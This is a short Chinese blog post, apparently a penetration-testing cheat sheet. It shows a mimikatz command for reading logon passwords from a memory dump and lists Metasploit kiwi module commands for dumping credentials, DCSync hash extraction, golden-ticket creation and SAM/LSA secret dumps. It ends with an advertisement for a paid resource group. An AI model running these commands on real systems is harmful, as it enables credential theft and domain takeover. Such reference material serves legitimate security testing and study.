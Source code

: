 
使用mimikatz读取密码
    
    
    mimikatz.exe "log" "sekurlsa::minidump 1.dmp" "sekurlsa::logonPasswords full" exit
    
    

#### msf中kiwi模块

注：kiwi默认加载32位，如果目标系统位64位，将进程迁移到64位程序的进程中。

#### kiwi模块使用
    
    
    load kiwi //加载kiwi模块
    help kiwi //查看帮助
    
    

#### kiwi模块命令
    
    
    creds_all：列举所有凭据
    creds_kerberos：列举所有kerberos凭据
    creds_msv：列举所有msv凭据
    creds_ssp：列举所有ssp凭据
    creds_tspkg：列举所有tspkg凭据
    creds_wdigest：列举所有wdigest凭据
    dcsync：通过DCSync检索用户帐户信息
    dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
    golden_ticket_create：创建黄金票据
    kerberos_ticket_list：列举kerberos票据
    kerberos_ticket_purge：清除kerberos票据
    kerberos_ticket_use：使用kerberos票据
    kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
    lsa_dump_sam：dump出lsa的SAM
    lsa_dump_secrets：dump出lsa的密文
    password_change：修改密码
    wifi_list：列出当前用户的wifi配置文件
    wifi_list_shared：列出共享wifi配置文件/编码
    
    

#### creds_all

列举系统中的明文密码

#### kiwi_cmd

kiwi_cmd可以使用mimikatz中的所有功能，命令需要接上mimikatz的命令
    
    
    kikiwi_cmd sekurlsa::logonpasswords
    
    

更多用法参考链接：https://www.freebuf.com/articles/web/176796.html

**更多资源：**

1、web安全工具、渗透测试工具  
2、存在漏洞的网站源码与代码审计+漏洞复现教程、  
3、渗透测试学习视频、应急响应学习视频、代码审计学习视频、都是2019-2021年期间的较新视频  
4、应急响应真实案例复现靶场与应急响应教程

**收集整理在知识星球，可加入知识星球进行查看。也可搜索关注微信公众号：W小哥**  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210420092210126.png#pic_center)
